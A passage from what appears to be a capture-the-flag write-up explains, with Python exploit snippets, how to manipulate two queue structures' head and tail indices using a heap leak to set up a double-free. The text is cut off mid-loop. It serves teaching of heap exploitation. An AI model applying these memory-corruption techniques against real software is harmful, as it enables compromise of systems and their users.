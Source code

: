 need to call pushleft at least 2 times to get to the end of the cards[] array.
~~~python
    for i in range(2) :
        pushleft(4, ("A"*0x40))
~~~
`head` and `tail` will have been overwritten by the address of the first chunk we allocated through `pushleft()` on queuestack 4. We have a heap leak, so we can calculate the exact value of this
address.
~~~python
tail_addr = heap_base + 0x490 
~~~
`head` and `tail` are integers, which are 4 bytes long, and we want the value of tail in this instance. `tail` is located after `head`, so we'll isolate the upper 4 bytes of the address.
~~~python
tail_addr = tail_addr >> 32
~~~
`popright()` will take the modulo of `tail` by 6 and use that as the index in the `cards` array.
~~~c
free(q->cards[(q->tail-1) % 6]);
~~~
Therefore, to get the index of the `cards` array that will first be freed by `popright()` after our write, we'll take the modulo of `tail_addr`
~~~python
predicted_tail = tail_addr % 6
~~~
Here's the overall code to predict which index `popright()` will free:
~~~python
    #calculate where tail for queuestack 3 is:
    tail_addr = heap_base + 0x490 #addr that we overwrite tail + head with
    tail_addr = tail_addr >> 32 #remember that ints are only 4 bytes long!
    print("tail addr: " + hex(tail_addr))
    predicted_tail = tail_addr % 6
    print("predicted tail: " + str(predicted_tail))
~~~
(printfs are unnecessary and were just there to help me debug the exploit)
In order to pull off the double-free successfully, we need to make sure that the head pointer for queuestack 4 is in the same position as the tail pointer for queuestack 3.
However, remember that every time `pushleft()` is called, a new chunk will be allocated. Heap addresses are randomized, so the location that `popright()` will first free will also
be randomized, and we'll have to call `pushleft()` a different number of times on each run of the exploit. This makes the exploit more unstable. Instead, we'll decrement `tail` of queuestack 3
using `popright()` until `tail` is equal to 0.
~~~python
    #first move it down to 0:
    for i in range(predicted_tail):
        popright(3)
~~~
The `cards` array of queuestack 3 is initially just 0s, and freeing 0 does nothing. Next, we'll allocate chunks in queuestack 3 until `tail` == 4
~~~python
    #then alloc 4 more chunks:
    for i in range(4):
        pushright(3, "AAAAAAA")
~~~
This way, `tail` in queuestack 3 will always be set to the same value and we'll allocate the same number of chunks on every iteration of the exploit. Now we'll move `head` of queuestack 4 down
to the head that `tail` is currently at.
~~~python
    #now move the head for queuestack 4 down to 3:
    for i in range(3) :
        pushleft(4, "DDDDDD")
~~~
Now we're almost ready to perform a double free! Here's the full exploit code that was required to set up the double-free:
~~~python
    #next move head for queuestack 4 to overwrite queuestack 3
    for i in range(2) :
~~~
